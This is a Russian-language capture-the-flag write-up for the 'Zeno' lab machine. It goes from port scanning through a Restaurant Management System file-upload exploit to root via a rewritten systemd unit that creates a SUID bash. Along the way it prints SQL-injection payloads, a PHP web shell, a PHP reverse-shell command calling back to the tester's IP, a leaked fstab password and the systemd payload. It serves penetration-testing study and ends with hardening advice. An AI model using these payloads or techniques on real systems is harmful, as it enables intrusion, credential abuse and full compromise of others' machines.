





# Zeno


---

### 🇬🇧 Task Description

**Zeno** — Do you have the same patience as the great stoic philosopher Zeno? Try it out! 🏛️🧘

Perform a penetration test against a vulnerable machine. Your end-goal is to become the root user and retrieve the two flags:

- `/home/{{user}}/user.txt`
- `/root/root.txt`

The flags are always in the same format, where XYZ is a MD5 hash: `THM{XYZ}`

The machine can take some time to fully boot up, so please be patient! ⏳

### 🇷🇺 Описание задачи

**Zeno** — Хватит ли у тебя терпения, как у великого философа-стоика Зенона? Попробуй! 🏛️🧘

Проведи тест на проникновение против уязвимой машины. Твоя конечная цель — стать root-пользователем и получить два флага:

- `/home/{{user}}/user.txt`
- `/root/root.txt`

Флаги всегда в формате MD5-хеша: `THM{XYZ}`

Машина может загружаться некоторое время, пожалуйста, наберись терпения! ⏳

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

#### 🏓 Проверка доступности (ping)

```bash
ping -c 4 10.130.152.211
```

**Результат:**

```
64 bytes from 10.130.152.211: icmp_seq=1 ttl=62 time=124 ms
64 bytes from 10.130.152.211: icmp_seq=2 ttl=62 time=84.6 ms
64 bytes from 10.130.152.211: icmp_seq=3 ttl=62 time=85.8 ms
64 bytes from 10.130.152.211: icmp_seq=4 ttl=62 time=89.1 ms

--- 10.130.152.211 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3011ms
```

✅ Хост жив! `ttl=62` — Linux-система. Потерь нет, идём дальше!

---

#### ⚡ Сканирование портов (nmap)

```bash
nmap -sC -sV 10.130.152.211
```

**Описание флагов:**
- `-sC` — запуск скриптов категории default (базовые проверки безопасности, сбор информации).
- `-sV` — определение версий сервисов на открытых портах.

**Результат:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-12 14:42 +0300
Nmap scan report for 10.130.152.211
Host is up (0.085s latency).
Not shown: 989 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.05 seconds
```

---

#### 📊 Результаты сканирования

Обнаружен **всего 1 открытый порт**:

| Порт | Сервис | Версия |
|------|--------|--------|
| 22/tcp | SSH | OpenSSH 7.4 |

🤔 Всего один порт? Ни HTTP, ни FTP... Похоже, философия Зенона учит нас терпению — придётся искать другие пути или подбирать учётные данные к SSH. Начнём с простого — возможно, пароль слабый или стандартный? 🧘‍♂️

---

### 🧘 Шаг 2: Полное сканирование всех портов

Один SSH — маловато для пентеста. Зенон учит нас терпению, но мы ускоримся! Запускаем агрессивное сканирование по всем 65535 портам:

```bash
nmap -T5 -p- -sS -n --min-rate 5000 10.130.152.211
```

**Описание флагов:**
- `-T5` — максимальная скорость сканирования (insane), экономим время.
- `-p-` — сканирование всех 65535 портов.
- `-sS` — SYN-сканирование (не завершает TCP handshake, быстрее и незаметнее).
- `-n` — не выполнять DNS-резолвинг (ещё быстрее).
- `--min-rate 5000` — отправлять минимум 5000 пакетов в секунду.

**Результат:**

```
PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown
```

🎉 Нашёлся скрытый порт **12340**! Идём проверять, что там за сервис.

---

### 🌐 Шаг 3: Исследование порта 12340 — веб-сервер

Порт 12340 не определился как известный сервис. Проверяем — вдруг HTTP? Запускаем `gobuster` для поиска скрытых директорий:

```bash
gobuster dir -u http://10.130.152.211:12340/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```

**Описание:**
- `dir` — режим перебора директорий.
- `-u` — целевой URL (порт 12340).
- `-w` — словарь (DirBuster medium — хороший баланс скорости и полноты).

**Результат:**

```
/rms (Status: 301) [Size: 240] [--> http://10.130.152.211:12340/rms/]
```

🎯 Найдена директория `/rms/`! Открываем в браузере:



Перед нами **Pathfinder Hotel Restaurant Management System** — система управления рестораном! 🍽️

---

#### 📄 Анализ HTML-кода

```bash
curl http://10.130.152.211:12340/rms/
```

В ответе видим полноценный сайт с формами **Login** и **Register**, а также интересную ссылку в футере:

```html
| <a href="admin/index.php" target="_blank">Administrator</a> |
```

👀 Админ-панель доступна по ссылке `/rms/admin/index.php`! Идём проверять — возможно, там стандартный пароль или уязвимость?

---

### 🕵️ Шаг 4: Поиск уязвимостей в Restaurant Management System

Прежде чем лезть в админ-панель, проверим, есть ли известные уязвимости для этого движка. Используем `searchsploit` — локальную копию Exploit-DB:

```bash
searchsploit Restaurant Management System
```

**Описание:**
- `searchsploit` — утилита из пакета `exploitdb` для поиска эксплойтов по ключевым словам в офлайн-режиме.

**Результат:**

```
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Restaurant Management System 1.0  - SQL Injec | php/webapps/51330.txt
Restaurant Management System 1.0 - Remote Cod | php/webapps/47520.py
---------------------------------------------- ---------------------------------
```

🔥 Два эксплойта! Смотрим первый — SQL Injection:

```bash
searchsploit -m php/webapps/51330.txt
cat 51330.txt
```

**Содержимое эксплойта:**

```
# Exploit Title: Restaurant Management System 1.0 - SQL Injection
# Endpoint: /rms/delete-order.php
# Vulnerable parameter: id (GET)

Time Base SQL Injection payloads:
http://example.com/rms/delete-order.php?id=1'or+sleep(5)%3b%23
http://example.com/rms/delete-order.php?id=122'+and+(select+1+from+(select(sleep(3)))calf)--
```

---

#### 🐌 Почему мы не идём по пути SQL Injection?

Уязвимость основана на **Time-Based Blind SQL Injection** — это значит, что данные из базы извлекаются по таймингу ответа сервера (функция `sleep()`). Такой подход имеет серьёзные минусы:

- ⏳ **Очень медленно** — каждая итерация занимает несколько секунд, а для дампа всей базы потребуются тысячи запросов.
- 📉 **Нестабильно** — задержки сети могут давать ложные срабатывания.
- 🛑 **Шумно** — множество запросов могут насторожить администратора или WAF.

Гораздо быстрее посмотреть второй эксплойт — **Remote Code Execution** 💥, который даёт сразу shell на сервере!

---

### 💥 Шаг 5: Remote Code Execution (RCE)

Второй эксплойт для Restaurant Management System 1.0 обещает заливку веб-шелла, а это прямой путь к выполнению команд на сервере. Используем его. 🚀

Скачиваем эксплойт и смотрим его содержимое:

```bash
searchsploit -m php/webapps/47520.py
cat 47520.py
```

**Описание эксплойта:**
- **Уязвимость:** Неаутентифицированная загрузка файлов в скрипт `/admin/foods-exec.php`.
- **Механика:** Скрипт формирует `multipart/form-data` POST-запрос, имитируя отправку формы добавления нового блюда с "фотографией", но в качестве файла заливается PHP-веб-шелл: `<?php echo shell_exec($_GET["cmd"]); ?>`.
- **Результат:** После загрузки шелл доступен по пути `/images/reverse-shell.php` и выполняет любые переданные через параметр `cmd` системные команды.

---

#### 🔧 Исправление ошибок в эксплойте

Первый запуск выдаёт синтаксическую ошибку:

```bash
python3 47520.py http://10.130.152.211:12340/rms/
```

```
SyntaxError: unterminated string literal (detected at line 40)
```

🐍 Это происходит потому, что оригинальный скрипт был написан под Python 2 и содержит многострочные строки в старом стиле. Python 3 требует закрытия всех строковых литералов в пределах одной строки. Открываем файл в `nano` и исправляем все строки, которые были разбиты на несколько строк внутри скобок: заголовки `User-Agent`, `Content-Type` и финальный `print` нужно переписать как однострочные строки (либо использовать тройные кавычки). 

После нескольких итераций правок все строки становятся валидными. 

Второй запуск — снова ошибка:

```
urllib3.exceptions.ProxyError
ConnectionRefusedError: [Errno 111] Connection refused
```

🔍 Анализируем: в исходном коде была строка:

```python
r = requests.post(target, verify=False, headers=headers, data=data, proxies={"http":"http://127.0.0.1:8080"})
```

Автор эксплойта забыл убрать прокси (скорее всего использовал Burp Suite для отладки). У нас никакой прокси не запущен — поэтому requests пытается подключиться к `127.0.0.1:8080` и получает отказ. 

Снова открываем `nano` и убираем аргумент `proxies` из вызова `requests.post`:

```python
r = requests.post(target, verify=False, headers=headers, data=data)
```

После этого финального исправления скрипт отрабатывает успешно! ✅

```bash
python3 47520.py http://10.130.152.211:12340/rms/
```

**Результат:**

```
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.130.152.211:12340/rms/images/reverse-shell.php
```

---

#### ✅ Проверка RCE

Открываем в браузере URL шелла с тестовой командой:

```
http://10.130.152.211:12340/rms/images/reverse-shell.php?cmd=id
```



**Вывод:**

```
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

🎉 Мы выполняем команды от имени пользователя `apache`! Веб-шелл работает, RCE подтверждён! 

---

### 🔄 Шаг 6: Получение Reverse Shell

Веб-шелл через `cmd` работает, но неудобен — каждая команда требует ручного ввода в URL. Получим полноценный интерактивный reverse shell! 🎣

---

#### 🛠️ Генерация пейлоада

Используем [revshells.com](https://www.revshells.com) — онлайн-генератор реверс-шеллов. Выбираем **PHP** и **nc**, указываем наш IP (`192.168.172.138` — адрес `tun0`) и порт `9999`:



**Сгенерированный пейлоад:**

```php
php -r '$sock=fsockopen("192.168.172.138",9999);shell_exec("sh <&3 >&3 2>&3");'
```

---

#### 🔗 URL-кодирование

Браузер не понимает пробелы и спецсимволы в URL — нужно закодировать пейлоад. На том же revshells.com копируем уже готовый URL-encoded вариант, либо кодируем вручную:



```
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.172.138%22%2C9999%29%3Bshell_exec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

**Как работает кодирование:**
- `%20` — пробел
- `%27` — одинарная кавычка `'`
- `%28` / `%29` — круглые скобки `(` `)`
- `%3B` — точка с запятой `;`
- `%3C`, `%3E` — символы перенаправления `<` `>`
- `%24` — знак доллара `$`

---

#### 🎧 Запуск слушателя и получение шелла

На локальной машине запускаем Netcat в режиме прослушивания:

```bash
nc -lvnp 9999
```

**Описание флагов:**
- `-l` — режим слушателя (listen).
- `-v` — verbose, подробный вывод.
- `-n` — не преобразовывать IP в DNS-имена.
- `-p 9999` — порт для прослушивания.

Затем открываем в браузере URL с закодированным пейлоадом, и в Netcat приходит соединение! 🎉

**Результат:**

```
connect to [192.168.172.138] from (UNKNOWN) [10.130.152.211] 42252
ls -la
total 1052
drwxr-xr-x.  2 apache apache   4096 May 12 14:28 .
drwxr-xr-x. 10 root   root     4096 Jul 26  2021 ..
-rw-r--r--.  1 root   root    13753 Nov 17  2017 1.PNG
-rw-r--r--.  1 root   root    23520 Dec  8  2020 47446233-clean-noir-et-gradient-sombre-image-de-fond-abstrait-.jpg
-rw-r--r--.  1 root   root   845941 Aug  1  2017 Desert.jpg
-rw-r--r--.  1 root   root    11776 Aug  1  2017 Thumbs.db
-rw-r--r--.  1 root   root      587 Aug  1  2017 base-bg.gif
-rw-r--r--.  1 root   root    80097 Aug  1  2017 head-img.jpg
-rw-r--r--.  1 root   root      668 Aug  1  2017 icon_menu.gif
-rw-r--r--.  1 root   root     3022 Aug  1  2017 logo.gif
-rw-r--r--.  1 root   root     6277 Aug  1  2017 logo2.gif
-rw-r--r--.  1 root   root    23318 Dec  8  2020 no-image-available.png
-rw-r--r--.  1 root   root    36863 Aug  1  2017 pizza-inn-map4-mombasa-road.png
-rw-r--r--.  1 apache apache     39 May 12 14:28 reverse-shell.php
```

✅ Мы внутри от пользователя `apache`! Удобный реверс-шелл работает.

---

### 🧘 Шаг 7: Стабилизация шелла и разведка системы

Шелл через Netcat неудобен — нет автодополнения, истории, можно случайно закрыть. Стабилизируем его:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Описание команды:**
- `python3 -c` — выполнить Python-код из аргумента командной строки.
- `import pty` — импорт модуля `pty` (pseudo-terminal), который эмулирует терминал.
- `pty.spawn("/bin/bash")` — запуск Bash внутри псевдотерминала. Это даёт нам нормальное приглашение командной строки и возможность использовать `Ctrl+C` и другие терминальные функции.

После стабилизации идём исследовать домашние директории:

```bash
cd /home
ls
```

Видим пользователя **edward**. Переходим в его папку:

```bash
cd edward
ls
```

Обнаружен `user.txt` — пробуем прочитать:

```bash
cat user.txt
```

❌ `Permission denied` — недостаточно прав. Проверяем права на файл:

```bash
ls -la
```

```
drwxr-xr-x. 3 root root   127 Sep 21  2021 .
drwxr-xr-x. 3 root root    20 Jul 26  2021 ..
-rw-r-----. 1 root edward  38 Jul 26  2021 user.txt
```

**Анализ прав:**
- Владелец файла — `root`.
- Группа-владелец — `edward`.
- Права `-rw-r-----` (640): `root` может читать и писать, группа `edward` — только читать, остальные не могут ничего.

Проверяем, кто мы:

```bash
whoami
```

```
apache
```

😩 Мы пользователь `apache`, не входим в группу `edward` — поэтому не можем прочитать `user.txt`. Нужно повысить привилегии до `edward` или `root`!

---

### 📊 Шаг 8: Загрузка LinPEAS для поиска путей повышения привилегий

Для поиска векторов эскалации прав используем проверенный **LinPEAS** (Linux Privilege Escalation Awesome Script) — скрипт, который анализирует систему на предмет: SUID/SGID-файлов, sudo-прав, Cron-задач, уязвимостей ядра (CVE), прав на запись в чувствительные файлы и многого другого. 🔍

---

#### 💻 Действия на локальной машине

Находим скрипт в системе:

```bash
find / -name "linpeas.sh" 2>/dev/null
```

**Описание команды:**
- `find /` — поиск по всей файловой системе от корня.
- `-name "linpeas.sh"` — точное имя файла.
- `2>/dev/null` — скрываем ошибки доступа (permission denied).

**Результат:** `/usr/share/peass/linpeas/linpeas.sh`

Переходим в директорию со скриптом и смотрим, какие версии доступны:

```bash
cd /usr/share/peass/linpeas/
ls
```

```
linpeas_darwin_amd64  linpeas_linux_386    linpeas_linux_arm64
linpeas_darwin_arm64  linpeas_linux_amd64  linpeas.sh
linpeas_fat.sh        linpeas_linux_arm    linpeas_small.sh
```

Проверяем IP-адрес VPN-интерфейса `tun0` — именно он связывает нас с целевой машиной:

```bash
ip a | grep tun
```

```
inet 192.168.172.138/17 brd 192.168.255.255 scope global tun0
```

Запускаем HTTP-сервер для передачи файла:

```bash
python3 -m http.server 80
```

**Описание:**
- `python3 -m http.server` — встроенный модуль Python, поднимающий простой HTTP-сервер.
- `80` — порт, на котором сервер будет отдавать файлы.

---

#### 🖥️ Действия на целевой машине

В реверс-шелле пытаемся скачать LinPEAS через `wget`:

```bash
wget http://192.168.172.138/linpeas.sh
```

❌ **Ошибка:** `bash: wget: command not found`

`wget` не установлен в целевой системе — минимальный образ, такое бывает. Пробуем `curl` прямо в текущей директории (`/home/edward`):

```bash
curl http://192.168.172.138/linpeas.sh -o linpeas.sh
```

❌ **Ошибка:** `Permission denied` — у пользователя `apache` нет прав на запись в домашнюю папку `edward`.

**Решение:** Переходим в `/tmp/` — это директория, доступная для записи всем пользователям:

```bash
cd /tmp
pwd
```

```
/tmp
```

Повторяем скачивание через `curl`:

```bash
curl http://192.168.172.138/linpeas.sh -o linpeas.sh
```

✅ **Успех!** Файл скачан:

```
100  966k  100  966k    0     0  1013k      0 --:--:-- --:--:-- --:--:-- 1013k
```

Проверяем:

```bash
ls
```

```
linpeas.sh
```

Теперь у нас есть LinPEAS на целевой машине — готовы запускать и искать пути к root! 🚀

---

### 🔑 Шаг 9: Запуск LinPEAS и обнаружение учётных данных

Даём скрипту права на выполнение и проверяем:

```bash
chmod +x linpeas.sh
ls -la
```

```
-rwxr-xr-x.  1 apache apache 989760 May 12 14:58 linpeas.sh
```

**Описание:**
- `chmod +x` — добавляет флаг исполняемого файла, теперь скрипт можно запустить.

---

#### 🕵️ Запуск и находка

Запускаем LinPEAS (полный вывод опущен для краткости) и видим важные находки:



**🚨 Критическая находка 1 — Writable systemd unit:**

```
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
You have write privileges over /etc/systemd/system/zeno-monitoring.service
```

Мы можем редактировать сервис `zeno-monitoring.service`! Это открывает путь к повышению привилегий через подмену systemd-сервиса.

**🔑 Критическая находка 2 — Утечка пароля в fstab:**

```
═╣ Credentials in fstab/mtab? ........... /etc/fstab:#//10.10.10.10/secret-share/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft	0 0
```

В файле `/etc/fstab` засветились учётные данные для монтирования сетевого CIFS-шары:
- 👤 Пользователь: `zeno`
- 🔐 Пароль: `FrobjoodAdkoonceanJa`

Так как пользователи часто используют одинаковые пароли на разных сервисах — пробуем эти же учётные данные для входа по SSH под пользователем `edward` (чья домашняя папка нам интересна)!

---

#### 🚪 Вход по SSH как edward

```bash
ssh edward@10.130.152.211
```

Вводим пароль `FrobjoodAdkoonceanJa` — и мы внутри! 🎉

```
Last login: Tue Sep 21 22:37:30 2021
[edward@zeno ~]$
```

Забираем пользовательский флаг:

```bash
ls
cat user.txt
```

```
THM{████████████████████████████}
```

✅ User flag получен!

---

### 💥 Шаг 10: Повышение привилегий через systemd-сервис

LinPEAS нашел две важные вещи:
1. ✍️ **Writable systemd unit** — `/etc/systemd/system/zeno-monitoring.service` доступен для записи.
2. 🔑 **Пароль в fstab** — `FrobjoodAdkoonceanJa` для пользователя `zeno`, который совпал с паролем `edward`.

Systemd-сервисы выполняются с высокими привилегиями. Если мы подменим содержимое `zeno-monitoring.service`, при следующем запуске система выполнит наш код с правами `root`! 🎯

---

#### 📝 Редактирование сервиса

Пробуем открыть файл через `nano`:

```bash
nano /etc/systemd/system/zeno-monitoring.service
```

❌ `nano: command not found` — минимальный образ, редактор отсутствует. Используем `vim`:

```bash
vim /etc/systemd/system/zeno-monitoring.service
```

Меняем содержимое сервиса на наш пейлоад:

```ini
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /mnt/secret-share/bash; chmod u+s /mnt/secret-share/bash"

[Install]
WantedBy=multi-user.target
```

**Разбор пейлоада:**
- `User=root` — сервис выполняется от root.
- `ExecStart` — команда, которая выполнится при старте сервиса.
- `cp /bin/bash /mnt/secret-share/bash` — копирует бинарник `bash` в `/mnt/secret-share/`. Эта директория взята из fstab — она смонтирована и доступна нам.
- `chmod u+s /mnt/secret-share/bash` — устанавливает **SUID-бит** на копию `bash`. Это значит, что любой пользователь, запустивший этот файл, получит права владельца файла — **root**.

**Почему SUID?**

SUID (Set User ID) — специальный бит прав доступа. Когда он установлен на исполняемом файле, процесс запускается не от имени того, кто его вызвал, а от имени **владельца** файла. Если владелец `root`, то и процесс будет `root`. Именно так работает, например, `/usr/bin/passwd` — обычный пользователь может менять свой пароль, потому что `passwd` имеет SUID от root и может редактировать `/etc/shadow`.

Проверяем, что записалось:

```bash
cat /etc/systemd/system/zeno-monitoring.service
```

Всё верно! Перезагружаем систему:

```bash
sudo reboot
```

**Почему `sudo reboot` сработал?**

Ранее LinPEAS показал, что `edward` имеет права на запись в systemd-юнит. А `sudo reboot` — стандартная команда перезагрузки, которая доступна `edward` по умолчанию (пользователи из группы `wheel` или с соответствующими sudo-правами могут перезагружать систему). Мы не меняли sudo-конфигурацию, просто использовали штатную возможность.

---

#### 🔄 После перезагрузки

Ждём, пока машина поднимется, и заново заходим по SSH:

```bash
ssh edward@10.130.152.211
```

Пароль `FrobjoodAdkoonceanJa` всё ещё работает. Идём проверять результат работы нашего сервиса:

```bash
cd /mnt/secret-share
ls -la
```

```
total 944
drwxr-xr-x. 2 edward edward     18 May 12 15:32 .
drwxr-xr-x. 3 root   root       26 Sep 21  2021 ..
-rwsr-xr-x. 1 root   root   964536 May 12 15:32 bash
```

🎉 Видим `bash` с SUID-битом (`rws` вместо `rwx`) и владельцем `root`!

---

#### 👑 Получение root-шелла через SUID bash

Используем технику из [GTFOBins](https://gtfobins.org/gtfobins/bash/):

```bash
./bash -p
```

**Описание:**
- `./bash` — запускаем нашу SUID-копию bash.
- `-p` — **privileged mode**. По умолчанию bash сбрасывает привилегии (euid), если реальный и эффективный UID не совпадают. Флаг `-p` отключает это поведение, сохраняя права root.

Проверяем:

```bash
whoami
```

```
root
```

Читаем флаг:

```bash
cat /root/root.txt
```

```
THM{████████████████████████████████}
```

🔴 **Root-флаг получен!** Машина полностью скомпрометирована! 🎉

---

## 🏁 Итог

Машина **Zeno** успешно пройдена по следующей цепочке атак:

> 🔍 Recon → 🌐 Hidden HTTP (порт 12340) → 🍽️ RMS Exploit (RCE) → 🛡️ Reverse Shell → 🔑 Credentials Leak (fstab) → 🚪 SSH as edward → ⚙️ Writable systemd unit → 💥 SUID bash → 👑 Root

**Ключевые точки:**

- 🔎 **Полное сканирование портов** — обнаружили скрытый HTTP-сервер на порту 12340, который не был виден при стандартном сканировании.
- 🛠️ **Исправление чужого эксплойта** — публичный скрипт для Restaurant Management System содержал синтаксические ошибки и жёстко прописанный прокси; пришлось анализировать код и править под себя.
- 🐚 **Reverse Shell** — стабилизировали неудобный веб-шелл до полноценного терминала через `pty`, закрепились в системе.
- 📂 **Утечка в fstab** — в файле `/etc/fstab` в открытом виде лежали учётные данные пользователя `zeno` (пароль подошёл и к `edward`).
- ⚙️ **Эксплуатация systemd** — LinPEAS нашёл writable unit-файл; подменили его так, чтобы при загрузке создавался SUID bash. После ребута — прямой путь к root.

**Рекомендации по защите:**
- ❌ Убрать конфиденциальные данные из `/etc/fstab` (использовать `credentials`-файлы с ограниченными правами).
- 🔒 Ограничить права на запись в `/etc/systemd/system/` только root.
- 🛑 Обновить RMS или ограничить доступ к админ-панели (не допускать неаутентифицированную загрузку файлов).
- 📁 Закрыть листинг директорий и скрытые порты от внешнего сканирования.

---

Автор: **masquadd** 👾